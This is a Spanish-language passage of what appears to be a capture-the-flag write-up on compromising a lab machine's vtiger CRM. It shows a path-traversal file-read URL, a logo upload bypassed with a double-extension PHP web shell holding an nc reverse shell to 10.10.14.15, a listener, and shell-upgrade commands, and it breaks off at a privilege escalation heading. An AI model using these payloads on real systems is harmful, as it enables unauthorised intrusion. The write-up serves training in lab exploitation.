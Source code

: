 Si analyzamos la url `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00&module=Accounts&action`, vemos
una parte que seria `https://10.10.10.7/vtigercrm`. Si vamos en esta url hay otro panel de session.

Copiando una vez mas las credenciales del usuario admin, podemos entrar en el dashboard de **vtiger CRM**.

Aqui la idea para ganar accesso al systema, viene de una vulnerabilidad que pasa por cambiar el logo de la compania con un fichero de doble extension.

Si vamos a `Settings > Settings > Company Details > edit`, aqui vemos que podemos cargar un fichero `.jpg` para cambiar el logo de la empresa.

1. Creamos un fichero con doble extension s4vishell.php.jpg

    ```php
    <?php
        system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f");
    ?>
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Uploadeamos el fichero a la web y cuando le damos a save ya hemos ganado accesso al systema.


```bash
whoami
#Output
asterisk
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```




## Privilege Escalation {-}

### Rootear la maquina {-}
